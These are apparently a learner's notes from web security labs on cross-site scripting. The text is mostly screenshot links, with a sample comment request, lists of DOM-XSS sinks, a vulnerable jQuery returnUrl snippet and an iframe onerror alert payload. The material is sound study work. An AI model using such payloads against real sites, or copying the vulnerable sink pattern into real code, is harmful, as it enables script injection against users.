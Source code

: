 	
![[Pasted image 20250804190208.png]]
![[Pasted image 20250804190319.png]]
![[Pasted image 20250804190444.png]]
![[Pasted image 20250804190511.png]]
![[Pasted image 20250804190617.png]]
![[Pasted image 20250804191702.png]]

![[Pasted image 20250804191645.png]]
![[Pasted image 20250804191955.png]]


![[Pasted image 20250804192252.png]]
```
POST /post/comment 
HTTP/1.1 Host: vulnerable-website.com 
Content-Length: 100 

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
```
![[Pasted image 20250804192526.png]]![[Pasted image 20250804194059.png]]
![[Pasted image 20250804194416.png]]
![[Pasted image 20250804194536.png]]
![[Pasted image 20250804200527.png]]



![[Pasted image 20250804201216.png]]

![[Pasted image 20250804201543.png]]
![[Pasted image 20250804201731.png]]
![[Pasted image 20250804202845.png]]
![[Pasted image 20250804203217.png]]
![[Pasted image 20250804203228.png]]
The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()

```


![[Pasted image 20250807143343.png]]
![[Pasted image 20250807150032.png]]
![[Pasted image 20250807150041.png]]
![[Pasted image 20250807164023.png]]

![[Pasted image 20250807164122.png]]

```
$(function() { $('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl')); });
```

![[Pasted image 20250807172127.png]]
```
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```
![[Pasted image 20250820212324.png]]


![[Pasted image 20250821134803.png]]
```
eval('var data = "reflected string"');
```


![[Pasted image 20250821152712.png]]


![[Pasted image 20250827194954.png]]
![[Pasted image 20250827195008.png]]
![[Pasted image 20250827194857.png]]
Lab15 for the above lab


![[Pasted image 20250827201639.png]]![[Pasted image 20250827213531.png]]

![[Pasted image 20250827213816.png]]![[Pasted image 20250827220136.png]]


![[Pasted image 20250827230518.png]]

![[Pasted image 20250827232826.png]]